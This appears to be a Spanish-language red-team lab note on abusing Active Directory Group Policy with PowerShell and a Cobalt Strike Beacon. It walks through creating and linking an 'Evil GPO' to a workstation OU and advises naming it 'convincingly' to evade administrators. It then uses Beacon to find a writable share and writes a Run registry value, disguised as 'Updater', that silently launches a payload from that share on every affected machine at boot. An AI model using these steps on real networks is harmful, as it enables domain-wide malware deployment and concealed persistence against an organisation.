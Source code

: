 El módulo **GroupPolicy** tiene varios cmdlets de PowerShell que se pueden usar para administrar GPO, incluidos:

| Comando                     | Explanation                                                                                                           |
| --------------------------- | --------------------------------------------------------------------------------------------------------------------- |
| **New-GPO**                 | crea un nuevo GPO vacío.                                                                                              |
| **New-GPLink**              | vincule un GPO a un sitio, dominio o unidad organizativa.                                                             |
| **Set-GPPrefRegistryValue** | configura un elemento de preferencia del registro en la configuración del equipo o del usuario.                       |
| **Set-GPRegistryValue**     | configura una o más configuraciones de políticas basadas en el registro en la configuración del equipo o del usuario. |
| **Get-GPOReport**           | genera un informe en formato XML o HTML.                                                                              | 


para comprobar si el modulo esta instalado podemos utilizar:
```powershell
Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
```

**En un apuro, puede instalarlo `Install-WindowsFeature –Name GPMC` como administrador local.**

---

Crear y linkear una GPO a una unidad Organizativa

```powershell
powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=evilcorp,DC=local"

GpoId       : 3451d1c7-f482-46d3-a756-9036684aa295
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=evilcorp,DC=local
Order       : 4
```

> OPSEC : el GPO será visible en la Consola de administración de directivas de grupo y otras herramientas RSAT GPO, así que asegúrese de que el nombre sea "convincente"

Ser capaz de escribir cualquier cosa, en cualquier lugar en las colmenas **HKLM o HKCU** presenta diferentes opciones para lograr la ejecución del código. Una forma sencilla es crear un nuevo valor de ejecución automática para ejecutar una carga útil de Beacon en el arranque.

debemos identificar donde alojar nuestro payload para que cuando las gpos se actualizen apunten a nuestro payload
 
```powershell
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```

Creamos un valor de registro en nuestra GPO.
```powershell
powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\gpo.exe" -Type ExpandString 

#fix
powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\gpo.exe" -Type ExpandString 

DisplayName      : Evil GPO
DomainName       : dev.evilcorp.local
Owner            : DEV\jking
```